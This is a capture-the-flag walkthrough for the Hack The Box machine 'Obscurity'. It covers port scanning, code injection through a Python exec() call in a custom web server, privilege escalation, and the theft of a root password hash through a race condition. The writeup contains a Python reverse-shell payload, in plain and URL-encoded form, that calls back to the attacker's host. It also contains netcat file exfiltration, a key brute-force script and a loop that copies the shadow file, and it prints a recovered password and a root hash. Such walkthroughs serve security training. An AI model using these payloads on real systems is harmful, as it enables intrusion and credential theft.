




---
search:
  exclude: true
---
# Obscurity Writeup

## Introduction :

Obscurity is a Medium linux box that was released back in november 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/obscurity]
    → nmap -vvv -p- 10.10.10.168 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 8080/tcp on 10.10.10.168
    Discovered open port 22/tcp on 10.10.10.168
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/obscurity]
    → nmap -sCV -p 22,8080 10.10.10.168
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 17:22 CEST
    Nmap scan report for 10.10.10.168
    Host is up (0.47s latency).
    
    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
    |   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
    |_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
    8080/tcp open  http-proxy BadHTTPServer
    | fingerprint-strings:
    |   GetRequest:
    |     HTTP/1.1 200 OK
    |     Date: Tue, 22 Jun 2021 15:30:19
    |     Server: BadHTTPServer
    |     Last-Modified: Tue, 22 Jun 2021 15:30:19
    |     Content-Length: 4171
    |     Content-Type: text/html
    |     Connection: Closed
    |     !DOCTYPE html>
    |     html lang="en">
    |     head>
    |     meta charset="utf-8">
    |     title>0bscura
    |     meta http-equiv="X-UA-Compatible" content="IE=Edge">
    |     meta name="viewport" content="width=device-width, initial-scale=1">
    |     meta name="keywords" content="">
    |     meta name="description" content="">
    |     !--
    |     Easy Profile Template
    |     http://www.templatemo.com/tm-467-easy-profile
    |     !-- stylesheet css -->
    |     link rel="stylesheet" href="css/bootstrap.min.css">
    |     link rel="stylesheet" href="css/font-awesome.min.css">
    |     link rel="stylesheet" href="css/templatemo-blue.css">
    |     /head>
    |     body data-spy="scroll" data-target=".navbar-collapse">
    |     !-- preloader section -->
    |     !--
    |     div class="preloader">
    |     div class="sk-spinner sk-spinner-wordpress">
    |   HTTPOptions:
    |     HTTP/1.1 200 OK
    |     Date: Tue, 22 Jun 2021 15:30:22
    |     Server: BadHTTPServer
    |     Last-Modified: Tue, 22 Jun 2021 15:30:22
    |     Content-Length: 4171
    |     Content-Type: text/html
    |     Connection: Closed
    |     !DOCTYPE html>
    |     html lang="en">
    |     head>
    |     meta charset="utf-8">
    |     title>0bscura
    |     meta http-equiv="X-UA-Compatible" content="IE=Edge">
    |     meta name="viewport" content="width=device-width, initial-scale=1">
    |     meta name="keywords" content="">
    |     meta name="description" content="">
    |     !--
    |     Easy Profile Template
    |     http://www.templatemo.com/tm-467-easy-profile
    |     !-- stylesheet css -->
    |     link rel="stylesheet" href="css/bootstrap.min.css">
    |     link rel="stylesheet" href="css/font-awesome.min.css">
    |     link rel="stylesheet" href="css/templatemo-blue.css">
    |     /head>
    |     body data-spy="scroll" data-target=".navbar-collapse">
    |     !-- preloader section -->
    |     !--
    |     div class="preloader">
    |_    div class="sk-spinner sk-spinner-wordpress">
    |_http-server-header: BadHTTPServer
    |_http-title: 0bscura
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8080-TCP:V=7.91%I=7%D=6/22%Time=60D20029%P=x86_64-pc-linux-gnu%r(Ge
    SF:tRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Tue,\x2022\x20Jun\x2020
    SF:21\x2015:30:19\nServer:\x20BadHTTPServer\nLast-Modified:\x20Tue,\x2022\
    SF:x20Jun\x202021\x2015:30:19\nContent-Length:\x204171\nContent-Type:\x20t
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 52.21 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 8080 which seems to be a 'BadHTTPServer' with a bunch of weird leaks, we can assume that this is a non-standard web server, so let's first check out what it has:

First we see the **obscure.htb** domain and the **secure** username. And at the end of it we see that there is a python script called **SuperSecureServer.py** in some secret development directory. Maybe it is accessible from the webserver so let's try to find it:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/obscurity]
    → ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
    
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/
    
           v1.3.1 Kali Exclusive 
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
     :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405
    ________________________________________________
    
    develop                 [Status: 200, Size: 5892, Words: 1806, Lines: 171]
    [WARN] Caught keyboard interrupt (Ctrl-C)
    
    

Looks like SuperSecureServer.py is in the **/develop/** directory so let's download it: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/obscurity]
    → curl http://10.10.10.168:8080/develop/SuperSecureServer.py
    import socket
    import threading
    from datetime import datetime
    import sys
    import os
    import mimetypes
    import urllib.parse
    import subprocess
    
    respTemplate = """HTTP/1.1 {statusNum} {statusCode}
    Date: {dateSent}
    Server: {server}
    Last-Modified: {modified}
    Content-Length: {length}
    Content-Type: {contentType}
    Connection: {connectionType}
    
    {body}
    """
    DOC_ROOT = "DocRoot"
    
    CODES = {"200": "OK",
            "304": "NOT MODIFIED",
            "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND",
            "500": "INTERNAL SERVER ERROR"}
    
    MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg",
            "ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2",
            "js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}
    
    
    

We download it locally to inspect it further:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/obscurity]
    → wget http://10.10.10.168:8080/develop/SuperSecureServer.py
    --2021-06-23 09:37:50--  http://10.10.10.168:8080/develop/SuperSecureServer.py
    Connecting to 10.10.10.168:8080... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5892 (5.8K) [text/plain]
    Saving to: ‘SuperSecureServer.py’
    
    SuperSecureServer.py                                            100%[======================================================================================================================================================>]   5.75K  6.15KB/s    in 0.9s
    
    2021-06-23 09:37:52 (6.15 KB/s) - ‘SuperSecureServer.py’ saved [5892/5892]
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/obscurity]
    → vim SuperSecureServer.py
    

` 
    
    
    path = urllib.parse.unquote(path)
    info = "output = 'Document: {}'" # Keep the output for later debug
    exec(info.format(path)) # This is how you do string formatting, right?
    
    

Basically here we see that the **exec()** is being used and it takes some parts of the URL as arguements, therefore it is injectable. We're going to try to inject it with a python reverse shell payload:
    
    
    /';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
    

So the full URL looks like this: 
    
    
    http://10.10.168:8080/';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
    

This is a python themed box so let's write a python script to send a GET request to that URL: 
    
    
    [terminal1]
    [ 10.66.66.2/32 ] [ /dev/pts/18 ] [~/HTB/obscurity]
    → vim req_revshell.py
    
    import requests
    import os
    
    host = "http://10.10.10.168:8080/"
    
    #payload ="/';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
    #use burpsuite to url encode it (right click, URL encode all characters)
    payload="/%27%3b%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%34%2e%31%31%22%2c%39%30%30%31%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27"
    
    requests.get(host+payload)
    
    
    :wq
    
    [terminal2]
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/obscurity]
    → python3 req_revshell.py
    
    [terminal3]
    [ 10.66.66.2/32 ] [ /dev/pts/17 ] [~/HTB/obscurity]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.168] 58408
    
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    

Now that we have a reverse shell let's upgrade it to a fully interactive TTY: 
    
    
    $ which python python3 wget curl
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@obscure:/$ ^Z
    [1]  + 1889680 suspended  nc -lvnp 9001
    
    [ 10.66.66.2/32 ] [ /dev/pts/17 ] [~/HTB/obscurity]
    → stty raw -echo ; fg
    [1]  + 1889680 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    www-data@obscure:/$ export SHELL=bash
    www-data@obscure:/$ stty rows 40 columns 200
    www-data@obscure:/$ reset
    

And now with this we have a fully interactive TTY shell: 
    
    
    www-data@obscure:/$ ls -lash /home
    total 12K
    4.0K drwxr-xr-x  3 root   root   4.0K Sep 24  2019 .
    4.0K drwxr-xr-x 24 root   root   4.0K Oct  3  2019 ..
    4.0K drwxr-xr-x  7 robert robert 4.0K Dec  2  2019 robert
    www-data@obscure:/$ ls -lash /home/robert
    total 60K
    4.0K drwxr-xr-x 7 robert robert 4.0K Dec  2  2019 .
    4.0K drwxr-xr-x 3 root   root   4.0K Sep 24  2019 ..
       0 lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
    4.0K -rw-r--r-- 1 robert robert 3.7K Apr  4  2018 .bashrc
    4.0K drwxr-xr-x 2 root   root   4.0K Dec  2  2019 BetterSSH
    4.0K drwx------ 2 robert robert 4.0K Oct  3  2019 .cache
    4.0K -rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
    4.0K drwxr-x--- 3 robert robert 4.0K Dec  2  2019 .config
    4.0K drwx------ 3 robert robert 4.0K Oct  3  2019 .gnupg
    4.0K drwxrwxr-x 3 robert robert 4.0K Oct  3  2019 .local
    4.0K -rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
    4.0K -rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
    4.0K -rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
    4.0K -rwxrwxr-x 1 robert robert 2.5K Oct  4  2019 SuperSecureCrypt.py
    4.0K -rwx------ 1 robert robert   33 Sep 25  2019 user.txt
    

Now we know that we need to pivot to the robert user. We need 3 files: 
    
    
    www-data@obscure:/home/robert$ ls -lash SuperSecureCrypt.py out.txt check.txt
    4.0K -rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
    4.0K -rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
    4.0K -rwxrwxr-x 1 robert robert 2.5K Oct  4  2019 SuperSecureCrypt.py
    
    www-data@obscure:/home/robert$ md5sum SuperSecureCrypt.py out.txt check.txt
    3c2b0c8126d8b0fbd043c6a2c270f7ab  SuperSecureCrypt.py
    7c8230e2429e85d94a8c5604e726c013  out.txt
    efeb69264c227272d9d3efcf8f58ed9f  check.txt
    
    

Let's transfer them one by one onto our box 
    
    
    www-data@obscure:/home/robert$ which nc
    /bin/nc
    
    www-data@obscure:/home/robert$ cat check.txt | nc 10.10.14.11 9090
    
    www-data@obscure:/home/robert$ cat SuperSecureCrypt.py | nc 10.10.14.11 9090
    
    www-data@obscure:/home/robert$ cat out.txt | nc 10.10.14.11 9090
    

And we recieve them like so: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → nc -lvnp 9090 > check.txt
    listening on [any] 9090 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.168] 45662
    ^C
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → nc -lvnp 9090 > SuperSecureCrypt.py
    listening on [any] 9090 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.168] 45666
    ^C
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → nc -lvnp 9090 > out.txt
    listening on [any] 9090 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.168] 45672
    ^C
    
    

We verify if they are the same files by looking at their md5sum hashes: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → md5sum SuperSecureCrypt.py out.txt check.txt
    3c2b0c8126d8b0fbd043c6a2c270f7ab  SuperSecureCrypt.py
    7c8230e2429e85d94a8c5604e726c013  out.txt
    efeb69264c227272d9d3efcf8f58ed9f  check.txt
    
    

Now we see that they have the same hashes so we successfully copied the files onto our local machine. Let's first inspect what the Crypt.py script is about:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → cat SuperSecureCrypt.py
    import sys
    import argparse
    
    def encrypt(text, key):
        keylen = len(key)
        keyPos = 0
        encrypted = ""
        for x in text:
            keyChr = key[keyPos]
            newChr = ord(x)
            newChr = chr((newChr + ord(keyChr)) % 255)
            encrypted += newChr
            keyPos += 1
            keyPos = keyPos % keylen
        return encrypted
    
    def decrypt(text, key):
        keylen = len(key)
        keyPos = 0
        decrypted = ""
        for x in text:
            keyChr = key[keyPos]
            newChr = ord(x)
            newChr = chr((newChr - ord(keyChr)) % 255)
            decrypted += newChr
            keyPos += 1
            keyPos = keyPos % keylen
        return decrypted
    
    parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')
    
    parser.add_argument('-i',
                        metavar='InFile',
                        type=str,
                        help='The file to read',
                        required=False)
    
    parser.add_argument('-o',
                        metavar='OutFile',
                        type=str,
                        help='Where to output the encrypted/decrypted file',
                        required=False)
    
    parser.add_argument('-k',
                        metavar='Key',
                        type=str,
                        help='Key to use',
                        required=False)
    
    parser.add_argument('-d', action='store_true', help='Decrypt mode')
    
    args = parser.parse_args()
    
    banner = "################################\n"
    banner+= "#           BEGINNING          #\n"
    banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
    banner+= "################################\n"
    banner += "  ############################\n"
    banner += "  #        FILE MODE         #\n"
    banner += "  ############################"
    print(banner)
    if args.o == None or args.k == None or args.i == None:
        print("Missing args")
    else:
        if args.d:
            print("Opening file {0}...".format(args.i))
            with open(args.i, 'r', encoding='UTF-8') as f:
                data = f.read()
    
            print("Decrypting...")
            decrypted = decrypt(data, args.k)
    
            print("Writing to {0}...".format(args.o))
            with open(args.o, 'w', encoding='UTF-8') as f:
                f.write(decrypted)
        else:
            print("Opening file {0}...".format(args.i))
            with open(args.i, 'r', encoding='UTF-8') as f:
                data = f.read()
    
            print("Encrypting...")
            encrypted = encrypt(data, args.k)
    
            print("Writing to {0}...".format(args.o))
            with open(args.o, 'w', encoding='UTF-8') as f:
                f.write(encrypted)
    

Here we basically see that the script encrypts a file and gives out the result 'out.txt' so what we need here is to find the key that has been used to encrypt the file, so we write the following python script to bruteforce the key: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → vim decrypt.py
    
    from __future__ import print_function
    
    def decrypt(text, key):
        keylen = len(key)
        keyPos = 0
        decrypted = ""
        for x in text:
            keyChr = key[keyPos]
            newChr = ord(x)
            newChr = chr((newChr - ord(keyChr)) % 255)
            decrypted += newChr
            keyPos += 1
            keyPos = keyPos % keylen
        return decrypted
    
    key = ''
    pos = 0
    with open("out.txt", 'r', encoding='UTF-8') as f:
        data = f.read()
        with open("check.txt", 'r', encoding='UTF-8') as d:
            ch = d.read()
            for x in data:
                for j in range(255):
                    print(key + '\n')
                    newChr = ord(x)
                    newChr = chr((newChr - j) % 255)
                    if ch[pos] == newChr:
                        key += chr(j)
                        pos = pos + 1
                        break
    
    print(key)
    
    :wq
    
    
    

Running it gives us the key being **alexandrovich** So we use it to decrypt passwordreminder.txt: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → python3 SuperSecureCrypt.py -i passwordreminder.txt -o robert_pass.txt -k alexandrovich -d
    ################################
    #           BEGINNING          #
    #    SUPER SECURE ENCRYPTOR    #
    ################################
      ############################
      #        FILE MODE         #
      ############################
    Opening file passwordreminder.txt...
    Decrypting...
    Writing to robert_pass.txt...
    
    [ 10.66.66.2/32 ] [ /dev/pts/19 ] [~/HTB/obscurity]
    → cat robert_pass.txt
    SecThruObsFTW
    
    

And we get a password! Let's try to login as the robert user via SSH: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/20 ] [~/HTB/obscurity]
    → ssh robert@10.10.10.168
    The authenticity of host '10.10.10.168 (10.10.10.168)' can't be established.
    ECDSA key fingerprint is SHA256:H6t3x5IXxyijmFEZ2NVZbIZHWZJZ0d1IDDj3OnABJDw.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.168' (ECDSA) to the list of known hosts.
    robert@10.10.10.168's password:
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Wed Jun 23 08:47:33 UTC 2021
    
      System load:  0.0               Processes:             107
      Usage of /:   45.9% of 9.78GB   Users logged in:       0
      Memory usage: 10%               IP address for ens160: 10.10.10.168
      Swap usage:   0%
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    40 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Mon Dec  2 10:23:36 2019 from 10.10.14.4
    robert@obscure:~$ cat user.txt
    e4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We have been able to login as the robert user and get the user flag.

## **Part 3 : Getting Root Access**

Let's enumerate the box using linpeas.sh: 
    
    
    [terminal1]
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/obscurity]
    → cp /home/nothing/HTB/mango/linpeas.sh .
    
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/obscurity]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal2]
    robert@obscure:~$ wget http://10.10.14.11:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-23 08:51:42--  http://10.10.14.11:9090/linpeas.sh
    Connecting to 10.10.14.11:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                                      100%[===========================================================================================================================================================>] 333.85K   172KB/s    in 1.9s
    
    2021-06-23 08:51:45 (172 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    robert@obscure:~$ chmod +x /tmp/peas.sh
    robert@obscure:~$ /tmp/peas.sh
    
    

Let linpeas.sh run and then inspect the output:

Scrolling through linpeas.sh's output we see the following:

Let's check out what this BetterSSH python script is about:
    
    
    robert@obscure:~/BetterSSH$ ls
    BetterSSH.py
    
    robert@obscure:~/BetterSSH$ cat BetterSSH.py
    import sys
    import random, string
    import os
    import time
    import crypt
    import traceback
    import subprocess
    
    path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
    session = {"user": "", "authenticated": 0}
    try:
        session['user'] = input("Enter username: ")
        passW = input("Enter password: ")
    
        with open('/etc/shadow', 'r') as f:
            data = f.readlines()
        data = [(p.split(":") if "$" in p else None) for p in data]
        passwords = []
        for x in data:
            if not x == None:
                passwords.append(x)
    
        passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
        with open('/tmp/SSH/'+path, 'w') as f:
            f.write(passwordFile)
        time.sleep(.1)
        salt = ""
        realPass = ""
        for p in passwords:
            if p[0] == session['user']:
                salt, realPass = p[1].split('$')[2:]
                break
    
        if salt == "":
            print("Invalid user")
            os.remove('/tmp/SSH/'+path)
            sys.exit(0)
        salt = '$6$'+salt+'$'
        realPass = salt + realPass
    
        hash = crypt.crypt(passW, salt)
    
        if hash == realPass:
            print("Authed!")
            session['authenticated'] = 1
        else:
            print("Incorrect pass")
            os.remove('/tmp/SSH/'+path)
            sys.exit(0)
        os.remove(os.path.join('/tmp/SSH/',path))
    except Exception as e:
        traceback.print_exc()
        sys.exit(0)
    
    if session['authenticated'] == 1:
        while True:
            command = input(session['user'] + "@Obscure$ ")
            cmd = ['sudo', '-u',  session['user']]
            cmd.extend(command.split(" "))
            proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    
            o,e = proc.communicate()
            print('Output: ' + o.decode('ascii'))
            print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
    

Here we see that basically it temporarily writes the shadow file into **/tmp/SSH/**. So we can read the shadow file while the ssh login is running. The file is written after taking the password input, so the idea is to get an infinite while loop running in the background to copy the contents of **/tmp/SSH/*** into our own temporary directory at **/tmp/nihilist** and as we run the python script, we will end up with the files getting copied into our directory.
    
    
    robert@obscure:/tmp$ while :; do cp /tmp/SSH/* /tmp/nihilist/; done 2>/dev/null &
    [1] 77440
    
    

Now let's run the python script: 
    
    
    robert@obscure:/tmp$ cd ~
    
    robert@obscure:~$ cd BetterSSH/
    
    robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: nihilist
    Enter password: nihilist
    Invalid user
    
    

Now we check /tmp/nihilist for copied files: 
    
    
    robert@obscure:~/BetterSSH$ ls -lash /tmp/nihilist/
    total 12K
    4.0K drwxrwxr-x  2 robert robert 4.0K Jun 23 09:08 .
    4.0K drwxrwxrwt 13 root   root   4.0K Jun 23 09:07 ..
    4.0K -rw-r--r--  1 robert robert  249 Jun 23 09:08 AYxs8EPU
    robert@obscure:~/BetterSSH$ cat /tmp/nihilist/AYxs8EPU
    root
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
    18226
    0
    99999
    7
    
    
    
    
    robert
